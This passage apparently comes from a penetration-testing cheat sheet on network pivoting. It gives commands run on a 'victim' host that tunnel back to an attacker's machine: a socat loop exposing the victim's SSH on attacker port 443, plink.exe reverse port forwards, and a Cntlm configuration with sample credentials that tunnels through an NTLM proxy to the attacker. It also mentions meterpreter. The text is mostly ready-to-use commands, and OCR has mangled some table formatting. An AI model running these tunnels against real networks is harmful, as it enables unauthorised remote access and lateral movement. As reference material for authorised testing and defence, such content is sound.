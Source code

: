 ## Remote Port2Port<ins></ins>

Connect the local SSH port (22) to the 443 port of the attacker host

|     |     |
| --- | --- |
| 1<br><br>2<br><br>3 | `attacker>` `sudo` `socat TCP4-LISTEN:443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr` `#Redirect port 2222 to port 443 in localhost`<br><br>`victim>` `while` `true``;` `do` `socat TCP4:<attacker>:443 TCP4:127.0.0.1:22 ;` `done` `# Establish connection with the port 443 of the attacker and everything that comes from here is redirected to port 22`<br><br>`attacker>` `ssh` `localhost -p 2222 -l www-data -i vulnerable` `#Connects to the ssh of the victim` |

# Plink.exe<ins></ins>

It’s like a console PuTTY version ( the options are very similar to a ssh client).

As this binary will be executed in the victim and it is a ssh client, we need to open our ssh service and port so we can have a reverse connection. Then, to forward a only locally accessible port to a port in our machine:

|     |     |
| --- | --- |
| 1<br><br>2 | `echo` `y \| plink.exe -l <Our_valid_username> -pw <valid_password> [-p <port>] -R <port_ in_our_host>:<next_ip>:<final_port> <your_ip>`<br><br>`echo` `y \| plink.exe -l root -pw password [-p 2222] -R 9090:127.0.0.1:9090 10.11.0.41` `#Local port 9090 to out port 9090` |

# NTLM proxy bypass<ins></ins>

The previously mentioned tool:  **Rpivot**  **OpenVPN**  can also bypass it, setting these options in the configuration file:

|     |     |
| --- | --- |
| 1   | `http-proxy <proxy_ip> 8080 <file_with_creds> ntlm` |

## Cntlm<ins></ins>

<ins>http://cntlm.sourceforge.net/</ins>

It authenticates against a proxy and binds a port locally that is forwarded to the external service you specify. Then, you can use the tool of your choice through this port. Example that forward port 443

|     |     |
| --- | --- |
| 1<br><br>2<br><br>3<br><br>4<br><br>5 | `Username Alice`<br><br>`Password P@ssw0rd`<br><br>`Domain CONTOSO.COM`<br><br>`Proxy 10.0.0.10:8080`<br><br>`Tunnel 2222:<attackers_machine>:443` |

Now, if you set for example in the victim the  **SSH**  service to listen in port 443. You can connect to it through the attacker port 2222. You could also use a  **meterpreter**  that connects to localhost:443 and the attacker is listening in port 2222.

# YARP<ins></ins>

A reverse proxy create by Microsoft. You can find it here:  <ins>https://github.com/microsoft/reverse-proxy</ins>
